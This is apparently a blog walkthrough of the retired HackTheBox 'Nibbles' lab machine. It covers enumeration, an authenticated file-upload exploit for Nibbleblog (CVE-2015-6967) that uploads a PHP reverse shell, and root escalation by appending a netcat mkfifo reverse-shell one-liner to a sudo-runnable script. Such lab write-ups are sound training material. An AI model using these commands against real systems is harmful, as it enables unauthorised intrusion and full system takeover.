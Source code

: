 ```yaml
---
layout: post
title: "Nibbles"
date: 2025-07-27 15:34:00 +0800
categories: [HackTheBox, Easy]
tags: [Nibbleblog, CVE-2015-6967, file_permissions]
author: klein
image:
    path: /images/2025-07-27-Nibbles/Pasted-image-20250727130637.png
---
```


This notes-style walkthrough will be conducted using HackTheBox Guided Mode for this retired machine.

### How many open TCP ports are listening on Nibbles?

As always, the first few questions can be answered with basic enumeration. Let's do an Nmap scan.

```bash
nmap -sC -sV -oN nibbles 10.129.96.84 -vv
```

```
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### What is the relative path on the webserver to a blog?

Take a look at the web application. Loading the web page, we are greeted with a "Hello world!" message. 

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727113535.png)

As directory enumeration would be the next logical step for me, the source code gives away the relative path.

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727113631.png)

### What content management system (CMS) is being used by the blog??

This is usually straight away disclosed on the front web page or in the source code, in the server headers, somewhere that does not need a deep dive into the application. This case, as usual, is being disclosed on the front page.

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727114004.png)

### What is the relative path to an XML file that contains the admin username?


Using a tool named feroxbuster, we find the directory that hides this information.
```bash
feroxbuster -u http://10.129.96.84/nibbleblog --scan-dir-listings 
```


![image](/images/2025-07-27-Nibbles/Pasted-image-20250727120910.png)

Taking a look here, we find the admin username:
![image](/images/2025-07-27-Nibbles/Pasted-image-20250727121140.png)

### What is the admin user's password to log into the blog?

With an older HackTheBox machine, it is always worth trying the name of the box as a password.

### What version of the nibble blog is running on the target machine? Do not include the "v".

I found the version number in the following directory; this comes from the feroxbuster output.

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727121730.png)

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727121754.png)

### What is the 2015 CVE ID for an authenticated code execution by file upload vulnerability in this version of NibbleBlog.

A quick Google search reveals this information:

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727121836.png)

### Which user is the Nibbleblog instance running on the target machine?

To answer this question, a shell on the machine is required. As far as I researched, there are multiple ways of doing that. However, the easiest way was to use a POC exploit from GitHub.

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727123908.png)

By following the instructions, I created a PHP reverse shell ( from pentestmonkey), which got uploaded and then executed.

```bash
python3 exploit.py --url http://10.129.96.84/nibbleblog/ --username admin --password nibbles --payload shell1.php
```

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727124038.png)

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727124053.png)

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727124127.png)

### What is the name of the script that nibbler can run as root on Nibbles?

To find out this, just run sudo -l.

```bash
nibbler@Nibbles:/home/nibbler$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
 (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

### Enter the permission set on monitor.sh? Use the Linux file permissions format, like -rw-rw-r--.

I had to unzip the personal.zip file and got access to the bash script.

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727124637.png)

This means that we can execute it as root and at the same time write to the file with our current privileges. Let's append a reverse shell to the end of the file.

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.121 9002 >/tmp/f' | tee -a monitor.sh
```

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727130314.png)